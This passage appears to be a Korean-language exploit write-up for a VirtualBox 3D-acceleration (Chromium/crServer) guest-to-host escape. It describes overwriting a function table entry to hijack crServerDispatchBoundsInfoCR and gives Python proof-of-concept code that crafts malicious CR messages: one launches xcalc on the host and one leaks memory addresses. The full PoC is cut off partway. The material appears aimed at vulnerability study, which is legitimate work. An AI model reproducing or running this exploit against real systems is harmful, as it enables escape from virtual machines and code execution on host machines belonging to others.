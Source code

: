 이 코드는 0xdeadbeef 를 ID로 가지고 있고 size가 0xffffffff인 버퍼에서 pData로 부터 offset이 0x30인 곳에 id가 0xdeadcafe, 0xeeeeeeee인 버퍼로 덮어 씌운다. 이곳의 pdata 주소는 crServerDispatchBoundsInfoCR 으로 funtion table에 crServerDispatchBoundsInfoCR 주소가 담겨져 있는 주소로 간다. 

![image](https://user-images.githubusercontent.com/46625602/78138626-356a5700-7462-11ea-9990-d0c7a7de95ba.png)

![image](https://user-images.githubusercontent.com/46625602/78138778-6d719a00-7462-11ea-8bbe-f451bd541f81.png)

after function table 변조

![image](https://user-images.githubusercontent.com/46625602/78138827-837f5a80-7462-11ea-80b9-1bb3cb929259.png)


![image](https://user-images.githubusercontent.com/46625602/78140772-7b74ea00-7465-11ea-9185-a050522e8571.png)


```python
def xcalc(addr) :
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1)
        +"\x00\x00\x00" + chr(CR_BOUNDSINFOCR_OPCODE)
        + pack("<I",0)
        + "xcalc\x00\x20\x20\x20\x20\x20\x20\x20\x20"
        + "111111"
        + pack("<Q", addr) # xcalc argv
        )
    return msg
```

![image](https://user-images.githubusercontent.com/46625602/78141603-b1ff3480-7466-11ea-80a8-b6faf3f850a8.png)

**play screen Shot**

![image](https://user-images.githubusercontent.com/46625602/78145208-9185a900-746b-11ea-950e-2e98a23ad91e.png)

---

전체 POC 코드 

```python
import sys, os
from struct import pack, unpack
sys.path.append(os.path.abspath(os.path.dirname(__file__))+'/lib')
from chromium import *

def non_message() :
    msg = (
	pack("<III", CR_MESSAGE_OPCODES, 0X41414141, 1)
	+ "\x00\x00\x00" + chr(CR_NOP_OPCODE)
	+ pack("<IIII", 0x41414141, 0x41414141, 0x41414141, 0x41414141)
	)
    return msg

# leak addr
def leak_msg(offset):
    msg = (
        pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1) # type, conn_id, numOpcodes
        + '\x00\x00\x00' + chr(CR_EXTEND_OPCODE) # opcode1
        + pack("<I", offset) # packet_length
        + pack("<I", CR_GETATTRIBLOCATION_EXTEND_OPCODE) # sub opcode, program
        + pack("<I", 0xdeaddead) # name
        )
    return msg

# from leak addr, calc cr_server, crSpawn
def read_addr(res) :
    read_line = 0
```
